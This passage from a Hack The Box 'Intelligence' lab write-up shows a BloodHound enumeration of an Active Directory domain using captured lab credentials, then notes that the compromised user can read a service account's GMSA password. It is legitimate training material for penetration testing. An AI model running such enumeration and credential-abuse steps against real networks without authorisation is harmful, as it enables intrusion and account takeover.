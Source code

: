 ```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ bloodhound-python -c All -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb -ns 10.10.10.248 --zip
INFO: Found AD domain: intelligence.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 43 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
WARNING: Could not resolve: svc_int.intelligence.htb: The resolution lifetime expired after 3.2081212997436523 seconds: Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.; Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.
INFO: Done in 00M 21S
INFO: Compressing output into 20240213112552_bloodhound.zip
```

Looking through the results after marking Ted.Graves and Tiffany.Molina as 'owned' we can see that Ted.Graves can read the GMSA password of service account svc_int:

![intelligence_bloodhound.png](../assets/intelligence_assets/intelligence_bloodhound.png)
